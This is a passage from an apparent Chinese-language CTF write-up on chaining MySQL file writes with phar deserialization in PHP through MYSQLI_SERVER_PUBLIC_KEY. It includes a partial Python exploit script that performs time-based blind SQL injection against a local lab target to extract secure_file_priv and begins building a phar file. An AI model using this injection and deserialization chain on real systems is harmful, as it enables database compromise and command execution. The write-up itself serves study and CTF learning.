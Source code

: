 ![image-20220122174947497](img/image-20220122174947497.png)

可以看到，调用了php_stream_open_wrapper，因此可以来触发phar反序列化。

现在过程很明确：可以生成phar文件，通过mysql写入目录，再通过`MYSQLI_SERVER_PUBLIC_KEY`触发反序列化执行命令。

但是经过尝试发现最终触发失败，回显依然是数据库连接成功。这是因为caching_sha2_password认证方式下服务器端会使用缓存，查阅资料发现缓存存储在内存中：[https://dba.stackexchange.com/questions/218190/where-is-the-cache-for-the-mysql-caching-sha2-password-auth-plugin-stored](https://dba.stackexchange.com/questions/218190/where-is-the-cache-for-the-mysql-caching-sha2-password-auth-plugin-stored), `FLUSH PRIVILEGES`即可。

最终exp：

```php
import requests, string, random, os 

url = "http://127.0.0.1:7001"


def req(key, value):
    resp = requests.get(url + "/index.php/test", params={'key': key, 'value': value})
    return resp


def get_secure_file_priv():
    char_list = "_/" + string.ascii_letters + string.digits
    template = "select if((select substr(@@global.secure_file_priv,%s,1)='%s'),sleep(2),1)"
    data = ''
    for i in range(1, 100):
        flag = False
        for c in char_list:
            resp = req('3', template % (i, c))
            if resp.elapsed.seconds > 1.5:
                data += c
                flag = True
                print(data)
                break
        if not flag:
            print("end!")
            return data


def exp(secure_file_path):
    filename = "".join(random.sample(string.ascii_letters, 6)) + '.phar'
    file = os.path.join(secure_file_path, filename)

```